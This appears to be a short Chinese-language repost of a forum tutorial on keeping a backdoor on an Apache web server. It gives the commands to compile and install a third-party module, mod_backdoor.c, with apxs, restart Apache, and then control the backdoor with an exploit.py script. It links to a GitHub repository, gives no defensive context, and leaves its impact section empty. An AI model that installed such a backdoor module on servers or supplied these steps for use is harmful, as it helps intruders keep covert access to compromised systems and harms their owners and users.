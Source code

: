 # Apache后门维持

> 原文：[https://www.zhihuifly.com/t/topic/2810](https://www.zhihuifly.com/t/topic/2810)

# Apache后门维持

## 一、漏洞简介

通过运行第三方脚本，实现维持后门的方法

## 二、漏洞影响

## 三、复现过程

https://github.com/ianxtianxt/apache-

### 1、上传 mod_backdoor.c到服务器，并执行命令

```
apxs -i -a -c mod_backdoor.c && service apache2 restart 
```

![image](img/aa7c71fb4c7577267dfc94626d3280d5.png)

### 2、控制端执行方法

```
python exploit.py 127.0.0.1 80 
```

![image](img/1cc07c0b5bf4f77114ea83a55e6b005c.png)